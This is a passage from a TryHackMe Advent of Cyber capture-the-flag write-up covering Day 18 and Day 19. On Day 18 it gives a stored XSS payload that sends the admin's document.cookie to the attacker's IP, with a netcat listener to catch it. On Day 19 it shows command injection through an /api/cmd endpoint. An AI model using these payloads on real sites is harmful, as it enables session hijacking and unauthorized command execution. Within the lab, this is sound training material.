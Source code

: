 ```
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-25 11:51:24
```

> login to ssh and you will ge the flag

## Day 18 : Elf JS

#### 1. What is the admin's authid cookie value?

They have given us a webpage at port 3000, first create an account and lets check if this site vulnerable or not

![day18-1](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day18-1.png)

now press F12 and open console 

![day18-2](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day18-2.png)

and yay thats vulnerable and now exploit this to get admin authid

first open your terminal and run netcat as root to listen for incoming connections
```bash
nc -lnvp 80
```

after that put this into imput section and press submit

```bash
</p><script>window.location = 'http://<your-tun0-ip>/page?param=' + document.cookie; </script><p>
```

now lets wait for admin to login to the page and we will admin authid but this is unrealistic attack as this will quickly make the page unaccessible

![day18-3](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day18-3.png)

## Day 19 : Commands

we will given a webserver at port 3000 and they told us that they have found something suspicious at /api/cmd lets navigate there and see whats going on

![day19-1](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day19-1.png)

we will get no response but lets parse a command to check if that works

![day19-2](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day19-2.png)

now lets hunt for flag

put find / -name user.txt this command after the http://machine-ip/api/cmd 

![day19-3](https://github.com/strange07/tryhackme/blob/master/Advent%20of%20Cyber/day19-3.png)

now lets cat the flag but simply concatinating the flag doesn't work so we have to encode the url 
you can do by visiting at this site https://www.urlencoder.org/

